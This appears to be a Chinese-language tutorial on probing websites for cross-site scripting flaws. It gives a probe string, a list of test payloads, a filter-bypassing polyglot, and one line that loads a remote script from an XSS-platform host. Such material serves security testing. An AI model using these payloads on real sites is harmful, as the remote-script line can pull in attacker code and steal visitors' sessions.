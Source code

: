 　　xss探针可检测出网站有没有对xss漏洞做最基础的防御。

　　在测试xss的位置写入代码，查看页面源码，看看哪些代码被过滤或者转义了。

```
'';!--"<XSS>=&{()}
```

#### xss语句

　　除了xss探针以外，还可以输入最简单的测试语句

```
<script>alert(/xss/)</script>
```

　　如果插入的语句原封不动的呈现在了浏览器中，那么说明：

- 代码没有被过滤，存在xss；
- 代码没有被执行，因为没有闭合类似textarea标签，可以查看下源码。

#### 常用的xss检测语句

```
<script>alert(/xss/);</script>
<script>alert(/xss/)//
<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//用分号，也可以分号+空格（回车一起使用）
<img src=1 onmouseover=alert(1)>
<a herf=1 onload=alert(1)>nmask</a>
<script>window.a==1?1:prompt(a=1)</script>
<script>a=prompt;a(1)</script>
<img src=0 onerror=confirm('1')>
<script>alert(1)</script>
<script src="http://xsspt.com/vA4t1W?1542101296"></script>
<img src=x onerror=alert(1)>
<a href="javascript:alert(1)">xss</a>
<svg onload=alert(1)>
<input type="text" name="test" onclick=alert(1)>
<iframe src="javascript:alert(/xss/)">xss</iframe>
<iframe srcdoc="<script>alert&#40;1&#41;</script>">
```

#### 使用GIthub上的终极xss工具

👉[传送门](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

　　它能够检测到存在于HTML属性、HTML文字内容、HTML注释、跳转链接、内联JavaScript字符串、内联CSS 样式表等多种上下文中的XSS漏洞，也能检测 `eval()`、`setTimeout()`、`setInterval()`、`Function()`、`innerHTML`、`document.write()`等DOMXSS漏洞，并且能绕过一些XSS过滤器。

　　只要在网站的各输入框中提交这个字符串，或者把它拼接到URL参数上，就可以进行检测了。

#### 自动化扫描工具
